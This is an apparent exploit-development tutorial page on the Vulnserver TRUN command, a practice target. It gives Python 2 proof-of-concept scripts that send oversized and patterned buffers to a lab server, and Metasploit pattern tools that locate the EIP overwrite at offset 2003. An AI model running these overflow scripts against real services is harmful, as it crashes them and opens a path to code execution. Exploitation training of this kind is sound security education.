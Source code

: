 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

	Vulnserver TRUN Python Script: POC
		```py
    #!/usr/bin/python
		import socket
		import os
		import sys

		crash="A"*5000

		buffer="TRUN /.:/"
		buffer+=crash

		print "[*] Sending evil TRUN request to VulnServer, OS-42279"
		expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
		expl.connect(("192.168.83.128", 9999))
		expl.send(buffer)
    expl.close()
    ```
Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

  Vulnserver TRUN Python Script: Pattern
    ```py
    #!/usr/bin/python
    import socket
    import os
    import sys

    crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

    buffer="TRUN /.:/"
    buffer+=crash

    print "Sending evil TRUN request to VulnServer, OS-42279"
    expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
    expl.connect(("192.168.83.128", 9999))
    expl.send(buffer)
    expl.close()
    ```
Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

![trun-eip-overwrite-media-02](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.
